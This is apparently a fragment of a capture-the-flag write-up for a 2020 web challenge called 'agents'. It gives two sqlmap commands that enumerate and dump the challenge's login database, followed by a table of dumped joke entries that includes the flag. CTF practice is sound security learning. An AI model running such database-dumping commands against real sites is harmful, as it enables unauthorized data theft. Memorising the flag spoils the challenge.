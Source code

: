 sqlmap -u "https://agents.2020.chall.actf.co/login?" --level=3 --dbs <br />
sqlmap -u "https://agents.2020.chall.actf.co/login?" --level=3 -D AgentsDB --dump <br />


|  AAAA                                                                                        | GRU                            |
|  shrek V                                                                                     | vector but elon musk's brother |
| 123ujklaguhjnkadsuop98uij2k3l4mlgjaisdopgjk;mlkl;k234lkjhasd89f709iok23jkdf keyboard bash op | actf{nyoom_1_4m_sp33d}         |
| neeeeeeeeeeeeeeeeeeeeeeeeum                                                                  | wile e. coyote                 |
| I WANT THAT KRABBY PATTY                                                                     | PLANKTON                       |
| bzzzzzzztaaaa                                                                                | mort                           |
| bzzz';lhjkdjsjkldfgzzzztaaaa                                                                 | shaggy, destroyer of worlds    |
| hiiiii whatis our aaa                                                                        | matt, lord of fitness          |
| nice try but this is harder :p                                                               | admin                          |
